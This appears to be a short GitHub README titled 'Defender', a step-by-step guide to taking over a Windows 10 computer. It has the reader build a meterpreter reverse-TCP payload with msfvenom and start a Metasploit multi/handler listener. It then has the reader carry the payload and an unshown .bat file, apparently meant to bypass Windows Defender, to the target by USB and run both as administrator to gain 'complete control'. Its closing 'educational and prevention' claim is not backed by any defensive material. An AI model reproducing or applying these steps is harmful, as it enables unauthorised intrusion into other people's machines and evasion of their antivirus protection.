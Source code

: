 # Defender
#author heritech
Step 1: Open the Kali Linux Terminal 
Click and run the terminal
Step 2: Create the Payload for Windows 10
In the terminal type:
mkdir Payload
cd Payload 
Then 
msfvenom -p windows/x64/meterpreter/reversetcp LPORT=8080 LHOST=your ip adress -o filename.exe_
LPORT=Your Port
LHOST=Your Ip Address
Filename.exe =Name It Any Name Of Your choice

With this commands we create the file with the payload

Step 3: Now You Need To Download This File To Bypass Windows Defender 

Step 4: In the terminal type this 
1:msfconsole
2:use exploit/multi/handler
3:set payload windows/meterpreter/reverse_tcp
set lhost Your Ip Address
set lport Your Port

Step 5:Transfer the File into the Target Computer

After we created our payload exe file we compress it to zip file. 
we must transfer the zip.file and the bat file we dowloaded in the target computer, 
so copy and paste the file into an USB stick, 
transfer the file into the computer and run our bat file as administrator.
then extract our zip file to exe and run as administrator.
Step 5:Then Lets Go Back To Our Kali Linux Terminal and Type 
exploit
 
Then You Have complete controll of the computer
Step 6:THIS GUIDE WAS CREATED FOR EDUCATIONAL AND PREVENTION PURPOSES
THANKS 
